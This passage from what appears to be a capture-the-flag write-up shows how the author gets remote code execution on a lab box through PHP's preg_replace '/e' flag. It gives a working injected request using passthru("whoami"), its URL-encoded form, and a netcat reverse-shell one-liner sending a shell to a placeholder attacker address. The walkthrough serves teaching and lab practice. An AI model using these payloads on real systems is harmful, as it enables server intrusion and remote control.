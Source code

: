 
![A25-phparticle1](https://i.imgur.com/FYaGXCv.png)

and here.

![A26-phparticle2](https://i.imgur.com/N98DFFp.png)


Executing arbitrary commands with the privileges of a webserver sounds exactly like mischief I'd like to cause. It seems that if we can simply add `e` to our request in the right spot, we should be able to execute commands that output to the web page.


Looking at the example in the 2nd image from the MadIrish article, we see that the replacement string is defined with `$string` - this seems like it would be analogous to `ipaddress` parameter in our request. That means the regex to be replaced falls under the `pattern` parameter, which is where we need to put the `e` flag. Let's give it a try.


Before, our request began with

	`pattern=/ip_address/&ipaddress=HELLO&text="openvpn": {`

Let's edit this to

	`pattern=/ip_address/e&ipaddress=passthru("whoami")&text="openvpn": { ...`

Which in URL-speak, comes out to look like

	`pattern=%2Fip_address%2Fe&ipaddress=passthru%28%22whoami%22%29&text=%22openvpn%22%3A ...`


and send our request.

![A27-POCreq](https://i.imgur.com/6N9VNfv.png)


After we step through, we see our web page has responded to our command!

![A28-POCproven](https://i.imgur.com/vuHnH31.png)

We have remote code execution!


Our command executed twice; we don't want that. This happened because "ip_address" appears twice in the text that is being operated on, so it is replaced twice. If we change our string to something that only appears once, our code will only execute once. I used the string `nobody`

I tried to execute some reverse shell scripts, but wasn't successful the first few times. Eventually, I got it to work by using a favorite trick of mine: hosting a reverse shell script on my own system using a Python Simple HTTP Server, downloading the script to a universally writable directory on the CTF Box, making this script executable and running it. I explain this in depth in the [Bulldog CTF Writeup.](https://gist.github.com/berzerk0/dd477837e5f07b05133bb21db8d51758)


Eventually, I was able to get my shell using the *netcat without e* shell from the Red Team Field Manual. Within my local `~/CTFs/europa` directory, I ran

* ` echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc local.machine.ip.addr SHELLPORT > /tmp/f" > script.sh`
